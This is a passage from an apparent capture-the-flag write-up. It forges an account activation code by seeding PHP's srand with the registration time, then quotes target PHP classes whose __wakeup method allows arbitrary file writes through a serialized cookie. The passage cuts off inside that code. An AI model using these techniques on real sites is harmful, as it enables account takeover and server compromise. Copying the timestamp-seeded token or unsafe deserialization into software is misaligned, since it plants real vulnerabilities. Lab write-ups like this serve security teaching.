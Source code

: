 Get the time when you posted the request for registering the user by using burp. Now all we need to convert the string representation of time to the time format in PHP. I am not a php developer so let’s google.

![](https://miro.medium.com/max/770/1*3D8iMFk2CA7ReDkY5EA4ag.png)

Let’s try this.

```php
<?php  
function generate_activation_code() {  
$chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890";  
srand(strtotime("Tue, 17 Jan 2023 16:45:31 GMT"));  
$activation_code = "";  
for ($i = 0; $i < 32; $i++) {  
$activation_code = $activation_code . $chars[rand(0, strlen($chars) - 1)];  
}  
echo $activation_code;  
}  
generate_activation_code()  
?>
```

![](https://miro.medium.com/max/770/1*Vj0XnRphNyElYSNgTiO2aA.png)

Code

Let’s try this code to activate our account.

![](https://miro.medium.com/max/770/1*LhcxHEiRb55LF2PG5xcivg.png)

SUCCESSFULLY ACTIVATED

**LOG IN :**

Let’s log in with our new account.

![](https://miro.medium.com/max/770/1*H5lXG2SGFgMHogxr4zEYFA.png)

We can see a new cookie is set. After doing some source code analysis found that a user-pref cookie is generated through serialization techinique which stores the information about the theme and state.

## **FOOTHOLD [WWW-DATA]:**

```php
class Avatar {  
public $imgPath;  
  
public function __construct($imgPath) {  
$this->imgPath = $imgPath;  
}  
  
public function save($tmp) {  
$f = fopen($this->imgPath, "w");  
fwrite($f, file_get_contents($tmp));  
fclose($f);  
}  
}  
  
class AvatarInterface {  
public $tmp;  
public $imgPath;  
  
public function __wakeup() {  
$a = new Avatar($this->imgPath);  
$a->save($this->tmp);  
```